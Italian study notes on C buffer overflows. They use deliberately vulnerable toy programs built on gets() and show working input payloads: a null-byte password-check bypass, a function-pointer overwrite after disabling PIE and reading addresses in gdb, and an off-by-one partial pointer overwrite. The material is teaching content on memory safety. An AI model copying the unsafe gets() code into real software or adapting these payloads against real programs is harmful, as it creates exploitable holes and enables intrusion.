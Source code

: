 Questa vulnerabilità è causata da una programmazione **unsafe**, programmare in modo "sicuro" infatti non è garantito da molti linguaggi (e.g. C), per questo sono importati dei meccanismi di **mitigazione**.

>[!info] **Buffer overflow**
>A condition at an interface under which more input can be placed into a buffer or data holding area than the capacity allocated, overwriting other information. Attackers exploit such a condition to crash a system or to insert specially crafted code that allows them to gain control of the system.
>SOURCE: [SP 800-28; CNSSI-4009](https://nvlpubs.nist.gov/nistpubs/ir/2013/NIST.IR.7298r2.pdf)

Panoramica di C:

| Vantaggi                      | Svantaggi                                                               |
| ----------------------------- | ----------------------------------------------------------------------- |
| Accesso completo alle risorse | Accesso ai dati in modo non sicuro                                      |
| Elevata performance           | È responsabilità del programmatore implementare meccanismi di sicurezza |
|                               | Ci sono molte funzioni unsafe nella stl                                 |

```c
#include <string.h>
#include <stdio.h>
char buffer1[8]="one"; // buffer of size 8 initialized with "one"
int value = 5;
char buffer2[8]="two"; // buffer of size 8 initialized with "two"
int main(int argc, char *argv[]) {
	printf("[BEFORE] buffer1 @ %1$p = %1$s\n", buffer1);
	printf("[BEFORE] value @ %1$p = 0x%2$08x\n",&value, value);
	printf("[BEFORE] buffer2 @ %1$p = %1$s\n", buffer2);
	
	printf("Please enter your input: ");
	gets(buffer1); // reads input into buffer1, whatever length!
	printf("\n");
	printf("[AFTER] buffer1 @ %1$p = %1$s\n", buffer1);
	printf("[AFTER] value @ %1$p = 0x%2$08x\n",&value, value);
	printf("[AFTER] buffer2 @ %1$p = %1$s\n", buffer2);
}
```

Notare come $7$ caratteri stiano dentro al buffer, con $9$ straripa completamente scrivendo il valore `0x39` che è il carattere ASCII per `9`, mentre da $17$ caratteri in poi va a scrivere dentro al secondo buffer:
```bash
[BEFORE] buffer1 @ 0x6b90f0 = one
[BEFORE] value   @ 0x6b90f8 = 0x00000005
[BEFORE] buffer2 @ 0x6b9100 = two
Please enter your input: 1234567
[AFTER]  buffer1 @ 0x6b90f0 = 1234567
[AFTER]  value   @ 0x6b90f8 = 0x00000005
[AFTER]  buffer2 @ 0x6b9100 = two

[BEFORE] buffer1 @ 0x6b90f0 = one
[BEFORE] value   @ 0x6b90f8 = 0x00000005
[BEFORE] buffer2 @ 0x6b9100 = two
Please enter your input:
[AFTER]  buffer1 @ 0x6b90f0 = 123456789
[AFTER]  value   @ 0x6b90f8 = 0x00000039
[AFTER]  buffer2 @ 0x6b9100 = two

[BEFORE] buffer1 @ 0x6b90f0 = one
[BEFORE] value   @ 0x6b90f8 = 0x00000005
[BEFORE] buffer2 @ 0x6b9100 = two
Please enter your input: 12345678999999999
[AFTER]  buffer1 @ 0x6b90f0 = 12345678999999999
[AFTER]  value   @ 0x6b90f8 = 0x39393939
[AFTER]  buffer2 @ 0x6b9100 = 9
```

Se mettessimo una stringa ancora più lunga prima o poi otterremmo un `segmentation fault`, la colpa di questo _buffer overflow_ è dovuta alla funzione `gets()` la quale è legacy ed unsafe.

Prendendo in considerazione questo codice:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
char buffer1[8]="......."; // buffer of size 8 for input
char buffer2[8]="sEgr3t0"; // buffer of size 8 initialized with the password
int main(int argc, char *argv[]) {
	printf("Insert password: ");
	gets(buffer1); // reads the user password, no check on length!
	if (strcmp(buffer1, buffer2) == 0) {
		printf("Authenticated!\n");
		exit(EXIT_SUCCESS);
	} else {
		printf("Wrong password!\n");
		exit(EXIT_FAILURE);
	}
}
```

È possibile bypassare il controllo della password inserendo `0x00` tra due stringhe di `buffer2.length()` caratteri:
```bash
echo -e "AAAAAAA\x00AAAAAAA" | ./overflow-pwd
```

### Position Independent Executionable (PIE)
Immaginando di avere il seguente codice:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
typedef struct element {
	char data[16];
	void (*f)(char *);
} element_t;

void secret_function() {
	printf("Secret function!\n");
}

void show_data(char *s) {
	printf("Data = %s\n",s);
}

int main(int argc, char *argv[]) {
	element_t e;
	e.f = show_data;
	printf("Insert data: ");
	gets(e.data); // reads data, unsafe!
	e.f(e.data);
}
```

E compilandolo con:
```bash
gcc overflow-struct.c -o overflow-struct --no-pie --static
```
andiamo a disabilitare **PIE**, il quale viene usato per posizionare in modo casuale il programma in memoria , in questo modo possiamo trovare facilmente l'indirizzo in memoria della funzione `e.f()`.

Otteniamo l'indirizzo di `secret_function`:
```bash
gdb -q overflow-struct
(gdb) disas secret_function
Dump of assembler code for function secret_function:
   0x0000000000400b4d <+0>:     push   rbp
   ...
```

procediamo riempiendo il buffer `data[]`, e poi inseriamo l'indirizzo della funzione che vogliamo eseguire:
```bash
# little endian
echo -e "AAAAAAAAAAAAAAAA\x4d\x0b\x40\x00\x00\x00\x00\x00"
Insert data: Secret function!
```

La locazione casuale del programma (PIE) riduce l'esposizione a questo tipo di attacchi, tuttavia questa vulnerabilità può ancora essere abusata, in quanto la randomizzazione "mantiene" gli [[Mapping#Mapping|offset]].

Modificando il main come segue:
```c
int main(int argc, char *argv[]) {
	element_t e;
	e.f = show_data;
	char c;
	printf("Insert data: ");
	memset(e.data,0,sizeof(e.data));
	
	for (int i=0; i<=sizeof(e.data) && (c=getc(stdin))!= EOF && c != '\n'; i++) {
		e.data[i] = c;
	}
	gets(e.data); // reads data, unsafe!
	e.f(e.data);
	
	printf("show_data = %p, secret_function = %p\n",show_data,secret_function);
}
```

```bash
echo -e "AAAAAAAAAAAAAAAA\xca" | ./overflow-struct-offbyone
Insert data: Secret function!
show_data = 0x560975daa7dd, secret_function = 0x560975daa7ca
```
è solo necessario sovrascrivere l'ultimo byte con `0xca`, il quale è il primo byte in memoria a causa del **little endian**, in pratica stiamo solo eseguendo uno shift del puntatore alla funzione che vogliamo.



